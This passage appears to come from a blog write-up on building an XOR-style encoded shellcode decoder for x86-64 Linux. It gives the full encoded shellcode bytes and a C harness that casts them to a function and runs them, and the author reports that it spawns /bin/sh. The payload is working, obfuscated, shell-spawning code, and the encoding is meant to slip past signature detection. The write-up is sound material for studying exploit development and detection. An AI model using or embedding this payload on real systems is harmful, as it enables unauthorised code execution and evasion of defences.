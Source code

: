 After that, I assembled the file `decoder.nasm` using `nasm` and retrieved the final shellcode using `objcopy`. Follows the C program I've used to test the decoder shellcode:

```cpp
#include <stdio.h>
#include <string.h>

// previously I've commited the error of initializing the buffer 'code' outside the main
// I said error because it would trigger a Segmentation Fault, due to the memory region 
//  not being executable.
// if you declare inside the main, it will be stored inside the .text section, which should be executable
void main(int argc, char* argv[])
{
    unsigned char code[] = \
"\x31\xc9\xeb\x2d\x5e\x80\xc1\x28\x56\x5a\x52\xeb\x08\x48\x83\xc6\x08\x48\x83\xc2\x07\x31\xc0\x8a\x1e\x80\xf3\xd1\x04\x01\x8a\x3c\x06\x30\xdf\x88\x3c\x02\x3c\x07\x74\xe3\xe2\xf0\x58\x04\x01\xff\xd0\xe8\xce\xff\xff\xff\x4e\xae\x5f\xcf\xd7\x16\x7d\xd7\xcd\xa7\x33\x7e\x75\x72\x33\x33\x6d\xcf\xd4\xef\xf4\x35\x5b\xec\x14\x92\x8d\x4c\x23\x46\x05\xfe\x7d\xa3\xa9\x7d\x7d\x7d\x7d\x7d";

    printf("[+] Shellcode length: %d\n", (int)strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

<figcaption class="figure-caption">Shellcode runner</figcaption>

Running the program above, I successfully managed to decode the encoded shellcode and execute the shell `/bin/sh`:

<figure class="kg-card kg-image-card kg-card-hascaption"><img src="__GHOST_URL__/content/images/2022/07/image-8.png" class="kg-image" alt loading="lazy" width="1790" height="589" srcset="__GHOST_URL__/content/images/size/w600/2022/07/image-8.png 600w, __GHOST_URL__/content/images/size/w1000/2022/07/image-8.png 1000w, __GHOST_URL__/content/images/size/w1600/2022/07/image-8.png 1600w, __GHOST_URL__/content/images/2022/07/image-8.png 1790w" sizes="(min-width: 720px) 720px"><figcaption class="figure-caption">Testing the decoder shellcode</figcaption>

